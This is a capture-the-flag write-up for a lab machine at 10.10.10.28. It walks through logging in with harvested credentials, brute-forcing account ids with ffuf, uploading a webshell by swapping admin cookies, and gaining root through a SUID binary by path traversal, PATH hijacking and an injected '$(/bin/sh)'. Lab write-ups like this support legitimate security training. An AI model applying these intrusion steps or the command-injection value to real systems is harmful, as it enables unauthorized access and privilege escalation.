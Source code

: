 # Steps

## Enumeration

> Apache & ssh services

## Exploration

Proxy http://10.10.10.28 or look at the source in dev tools.

There's an anchor with url `'/cdn-cgi/login/script.js`.
Actually `http://10.10.10.28/cdn-cgi/login/index.php` is a login page.

We try the credentials harvested from the previous ctf (Archetype):
```
Guest / Admin / Administrator
M3g4c0rp_123 / MEGACORP_4dm1n!!"
```

## Fuzz Admin Page

> GET parameters can be guessed (sequential)

We bruteforce the accound id with fuff:
```bash
ffuf -c -v -z -mc 200 -request-proto http -mr "<td>\d+</td>" -w ids.forged -request accounts-id.txt
```
> 86575 ; super admin ; superadmin@megacorp.com

## Upload a Reverse Shell

First find where the uploads land

```console
$ dirsearch -u http://10.10.10.28 -e php
```

> yeah... /uploads/

## Upload a file

1) Open `http://10.10.10.28/cdn-cgi/login/admin.php?content=uploads` with super admin credentials (cookie)
2) Select webshell file and submit the upload, as admin
3) Find the corresponding request in burp proxy
4) Repeat the request, changing the cookie to super admin once again
5) Go to `http://10.10.10.28/uploads/webshell.php`

## Exploit

> we have a shell!

Browsing around we see "robert" in /home and /var/www/html shows us:
- sqli is possible with the id parameters on the admin.php page
- the credentials to connect to the db...

> robert M3g4C0rpUs3r!

## Move Around

Checking the `/etc/ssh/sshd_config`, login with password is allowed, so we try
the db credentials...

> bingo, ssh session with robert's credentials

'robert' is part of "bugtracker", can we leverage that?

```bash
find / -type f -group bugtracker 2>/dev/null
```

Outputs `/usr/bin/bugtracker`.
The executable has no help and prompts for a "report id".

When the id is not valid, the binary doesn't find the matching file and
complains: `cat: /root/reports/5: No such file or directory`

## Privilege Exploitation

We have several options:
1) giving a relative path to read an arbitry file, like `../root.txt`
> we get the root flag!
2) replacing `cat` with a custom binary, like `/bin/sh` ^^
> yay root shell!
3) entering `$(/bin/sh)` gives us a root shell too... But it is non interactive
and it outputs everything in bulk when leaving
